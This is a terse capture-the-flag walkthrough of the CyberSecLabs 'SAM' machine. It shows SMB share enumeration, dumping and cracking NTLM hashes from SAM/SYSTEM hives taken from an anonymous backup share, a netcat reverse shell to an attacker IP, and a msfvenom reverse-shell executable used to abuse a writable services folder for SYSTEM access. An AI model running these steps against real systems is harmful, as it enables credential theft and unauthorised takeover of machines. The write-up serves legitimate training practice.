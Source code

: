 # CyberSecLabs : SAM


```zsh
nmap --script smb-enum-shares -p139,445 -T4 -Pn 172.31.1.18                                                                             [4/6685]
                                                                                                                        
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-10 12:42 EDT                                                         
Nmap scan report for 172.31.1.18                                                                                        
Host is up (0.16s latency).                                                                                             
                              
PORT    STATE SERVICE  
139/tcp open  netbios-ssn 
445/tcp open  microsoft-ds                                  
                              
Host script results:                                        
| smb-enum-shares:                                          
|   account_used: guest
|   \\172.31.1.18\ADMIN$:                                   
|     Type: STYPE_DISKTREE_HIDDEN                                                     
|     Comment: Remote Admin                                 
|     Anonymous access: <none>   
|     Current user access: <none>                                                     
|   \\172.31.1.18\C$:                      
|     Type: STYPE_DISKTREE_HIDDEN                                                     
|     Comment: Default share               
|     Anonymous access: <none>                                                        
|     Current user access: <none>                                                     
|   \\172.31.1.18\IPC$:                    
|     Type: STYPE_IPC_HIDDEN               
|     Comment: Remote IPC                  
|     Anonymous access: READ/WRITE                                                    
|     Current user access: READ/WRITE                                                 
|   \\172.31.1.18\backups:                 
|     Type: STYPE_DISKTREE                 
|     Comment:                             
|     Anonymous access: READ               
|_    Current user access: READ


```

```zsh
mount -t cifs //172.31.1.8/backup -o user=guest,password= /mnt/sam
```
```zsh
cd /mnt/sam/Windows/System32/config
```
Copy SAM and SYSTEM File to crack

```zsh

 ./pwdump.py SYSTEM SAM                                                                                                                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                      
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                              
jamie:1001:aad3b435b51404eeaad3b435b51404ee:68b1d3b0493ec0d6a1c0b8725062ab71:::                                                                                             
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:661e39b67cabec9066e1de26094770ab:::
```
Cracking the Hash

```zsh
hashcat -m 1000 68b1d3b0493ec0d6a1c0b8725062ab71 /usr/share/wordlists/rockyou.txt
```
Cracked hash:

```68b1d3b0493ec0d6a1c0b8725062ab71:rangers ```


5985 is running so evil-winrm

Get-Service doesnot work, services work.

winpeas or powerup doesnot give us anything.

Manual enumeration is the way.Upload nc and get out of Powershell. 

```cmd
./nc.exe -e cmd.exe 10.10.0.40 443
```

```                                                                                                                        
c:\Services>icacls "c:\Services"                                                                                        
icacls "c:\Services"                                                                                                    
c:\Services BUILTIN\Users:(OI)(CI)(F)                                                                                   
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)                                                                          
            BUILTIN\Administrators:(I)(OI)(CI)(F)                                                                       
            BUILTIN\Users:(I)(OI)(CI)(RX)                                                                               
            BUILTIN\Users:(I)(CI)(AD)                                                                                   
            BUILTIN\Users:(I)(CI)(WD)                                                                                   
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.40 LPORT=53 -f exe > monitor1.exe
```
Start a listener on port 53 on your kali machine
upload it, sc start monitor1 and you will have a System shell